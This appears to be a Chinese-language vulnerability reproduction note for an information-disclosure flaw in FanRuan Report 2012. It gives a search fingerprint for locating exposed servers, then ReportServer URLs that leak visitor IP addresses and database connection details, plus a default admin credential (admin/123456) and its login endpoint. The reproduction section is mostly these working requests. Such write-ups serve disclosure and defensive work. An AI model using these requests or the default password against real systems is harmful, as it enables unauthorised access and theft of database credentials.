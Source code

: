 # 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

```
帆软报表 2012
```

## 网络测绘

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

获取登录报表系统的IP

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```



![image-20220209113026424](./images/202202091130468.png)



数据库信息泄露

```plain
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```



![image-20220209113041021](./images/202202091130098.png)

后台默认口令 admin/123456

```plain
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```